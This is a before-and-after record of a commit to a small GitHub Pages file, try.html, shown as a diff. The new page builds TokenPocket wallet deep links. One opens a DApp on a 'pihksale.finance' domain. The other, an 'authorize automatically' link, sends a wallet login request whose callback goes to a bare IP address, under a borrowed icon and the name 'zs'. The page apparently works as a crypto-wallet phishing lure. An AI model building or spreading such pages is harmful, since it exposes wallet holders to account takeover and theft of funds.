

Before and after one commit to jackking123123/jackking123123.github.io, a plain HTML site: page 12s/try.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update try.html

```diff
--- a/12s/try.html
+++ b/12s/try.html
@@ -1,24 +1,35 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>TokenPocket Authorization</title>
+</head>
 <body>
+    <!-- 第一步：打开 DApp -->
+    <a href='tpdapp://open?params={"url": "https://www.pihksale.finance/12s/tp", "chain": "TRON", "source": "uniswap" }'>Open TokenPocket to open DApp</a><br/>
 
-<h1>The a href attribute</h1>
+    <!-- 第二步：自动授权 -->
+    <a id="authLink" href="#">Authorize TokenPocket Automatically</a><br/>
 
-<a href='tpdapp://open?params={"url": "https://www.pihksale.finance/12s/tp", "chain": "TRON", "source": "uniswap" }'>Open TokenPocket to open url</a><br/>
+    <script>
+        // 自动构建授权链接并进行重定向
+        const param = {
+            "callbackUrl": "http://115.205.0.178:9011/taaBizApi/taaInitData",
+            "action": "login",
+            "actionId": "1648522106711",
+            "blockchain": "tron",
+            "dappIcon": "https://eosknights.io/img/icon.png",
+            "dappName": "zs",
+            "protocol": "TokenPocket",
+            "version": "2.0"
+        };
 
-<a href='tpoutside://pull.activity?param={
-	"callbackUrl": "http:\/\/115.205.0.178:9011\/taaBizApi\/taaInitData",
-	"action": "login",
-	"actionId": "1648522106711",
-	"blockchains": [{
-		"chainId": "1",
-		"network": "ethereum"
-	}],
-	"dappIcon": "https:\/\/eosknights.io\/img\/icon.png",
-	"dappName": "zs",
-	"protocol": "TokenPocket",
-	"version": "2.0"
-}'>Open TokenPocket to authorize</a><br/>
+        const encodedParam = encodeURIComponent(JSON.stringify(param));
+        const authUrl = `tpoutside://pull.activity?param=${encodedParam}`;
 
+        // 设置自动授权链接
+        document.getElementById('authLink').setAttribute('href', authUrl);
+    </script>
 </body>
 </html>
```
